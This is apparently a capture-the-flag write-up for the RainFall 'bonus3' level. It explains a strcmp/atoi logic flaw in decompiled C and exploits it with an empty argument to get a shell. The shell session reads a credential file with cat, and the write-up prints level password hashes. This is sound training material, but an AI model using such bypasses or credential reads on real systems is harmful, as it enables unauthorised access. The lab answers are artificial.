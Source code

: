# **Bonus3**

## **Analysis**

**In `main()` :**

```c
...

file = fopen("/home/user/end/.pass", "r");  // Open the '.pass' file

if (!file || ac != 2)                       // One argument needed
	return (-1);

fread(str1, 1, 0x42, file); // 66           // Read the first 66 characters of '.pass' and put it in 'str1'
str1[atoi(av[1])] = '\0';                   // Atoi() on the argument and put '\0' in this index in str1

...

if (strcmp(av[1], str1) == 0)               // If str1 is equal to the argument
    execl("/bin/sh", "sh", 0);              // open shell

...
```

If `atoi()` of the argument equal `0` -> `str1` will equal `""`

___

## **Exploit**

**With arg `""`:**
 * atoi(arg) == 0
 * arg equal str1

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

___

*Password: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587*